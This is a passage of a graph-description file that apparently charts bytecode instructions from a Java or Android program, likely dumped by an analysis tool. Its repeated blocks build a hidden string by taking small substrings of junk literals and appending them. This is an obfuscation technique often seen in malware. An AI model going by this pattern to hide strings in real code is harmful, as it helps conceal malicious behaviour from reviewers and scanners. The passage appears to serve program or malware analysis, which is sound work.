    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qk72k3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qk72k3\"";
    "push \"Qk72k3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Uj69B3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Uj69B3\"";
    "push \"Uj69B3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4y74ch\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4y74ch\"";
    "push \"4y74ch\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d879np\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d879np\"";
    "push \"d879np\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qdV4dA6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qdV4dA6\"";
    "push \"qdV4dA6\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Bm616KD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Bm616KD\"";
    "push \"Bm616KD\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Spe6Y2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Spe6Y2\"";
    "push \"Spe6Y2\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ul16z2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ul16z2\"";
    "push \"Ul16z2\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DqU76Hd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DqU76Hd\"";
    "push \"DqU76Hd\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lZ572rHu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lZ572rHu\"";
    "push \"lZ572rHu\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"UN282pbw\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"UN282pbw\"";
    "push \"UN282pbw\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q6920sb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q6920sb\"";
    "push \"q6920sb\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"llLe26Ze\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"llLe26Ze\"";
    "push \"llLe26Ze\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ef2262KuQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ef2262KuQ\"";
    "push \"ef2262KuQ\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"RqMv02GYZ7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"RqMv02GYZ7\"";
    "push \"RqMv02GYZ7\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MY86aYht\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MY86aYht\"";
    "push \"MY86aYht\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b6203VQka\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b6203VQka\"";
    "push \"b6203VQka\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"efn8c2NK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"efn8c2NK\"";
    "push \"efn8c2NK\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kys031P68\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kys031P68\"";
    "push \"kys031P68\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Uw2920g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Uw2920g\"";
    "push \"Uw2920g\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"V797l8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"V797l8\"";
    "push \"V797l8\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"f7b74Jvsph\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"f7b74Jvsph\"";
    "push \"f7b74Jvsph\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cz72Ft\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cz72Ft\"";
    "push \"cz72Ft\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0B797tv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0B797tv\"";
    "push \"0B797tv\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"klb7p3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"klb7p3\"";
    "push \"klb7p3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3j374Lh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3j374Lh\"";
    "push \"3j374Lh\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zM5722PF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zM5722PF\"";
    "push \"zM5722PF\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jge470\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jge470\"";
    "push \"jge470\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lK378nUl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lK378nUl\"";
    "push \"lK378nUl\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QNQ06lkm5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QNQ06lkm5\"";
    "push \"QNQ06lkm5\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BAb4a4M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BAb4a4M\"";
    "push \"BAb4a4M\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"k8QG772yGA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"k8QG772yGA\"";
    "push \"k8QG772yGA\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uLS28wZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uLS28wZ\"";
    "push \"uLS28wZ\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"H3297F7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"H3297F7\"";
    "push \"H3297F7\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ynm3b6e3Q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ynm3b6e3Q\"";
    "push \"Ynm3b6e3Q\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"j4UMa2bLa\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"j4UMa2bLa\"";
    "push \"j4UMa2bLa\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cy2b3lhMC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cy2b3lhMC\"";
    "push \"cy2b3lhMC\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AMb7dlK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AMb7dlK\"";
    "push \"AMb7dlK\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pkpl63B5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pkpl63B5\"";
    "push \"pkpl63B5\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1F617Va\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1F617Va\"";
    "push \"1F617Va\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1wR46Yf\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1wR46Yf\"";
    "push \"1wR46Yf\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jb36Ks\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jb36Ks\"";
    "push \"jb36Ks\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wvmu82Bwz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wvmu82Bwz\"";
    "push \"wvmu82Bwz\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KAs8640\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KAs8640\"";
    "push \"KAs8640\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Fp2522h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Fp2522h\"";
    "push \"Fp2522h\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KD97aS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KD97aS\"";
    "push \"KD97aS\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5seb7dcz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5seb7dcz\"";
    "push \"5seb7dcz\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yF3blM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yF3blM\"";
    "push \"yF3blM\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FZ7d3Kw\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FZ7d3Kw\"";
    "push \"FZ7d3Kw\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qab7238v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qab7238v\"";
    "push \"qab7238v\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FGTU65Te\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FGTU65Te\"";
    "push \"FGTU65Te\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FK747hU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FK747hU\"";
    "push \"FK747hU\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d0CVn575gC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d0CVn575gC\"";
    "push \"d0CVn575gC\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LW26eF8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LW26eF8\"";
    "push \"LW26eF8\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FRFTy20hu7tD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FRFTy20hu7tD\"";
    "push \"FRFTy20hu7tD\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kM27yW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kM27yW\"";
    "push \"kM27yW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yFS273MpkKH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yFS273MpkKH\"";
    "push \"yFS273MpkKH\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"SSb7dH8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"SSb7dH8\"";
    "push \"SSb7dH8\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CQ3bel\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CQ3bel\"";
    "push \"CQ3bel\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sN65DQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sN65DQ\"";
    "push \"sN65DQ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MH20k8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MH20k8\"";
    "push \"MH20k8\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EC23d2er\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EC23d2er\"";
    "push \"EC23d2er\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sT06hT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sT06hT\"";
    "push \"sT06hT\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cme6cm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cme6cm\"";
    "push \"cme6cm\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uuyt577QC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uuyt577QC\"";
    "push \"uuyt577QC\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TMU204fU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TMU204fU\"";
    "push \"TMU204fU\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"efn57HR3d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"efn57HR3d\"";
    "push \"efn57HR3d\""->"push 3";
    "push 3"->"push 5";
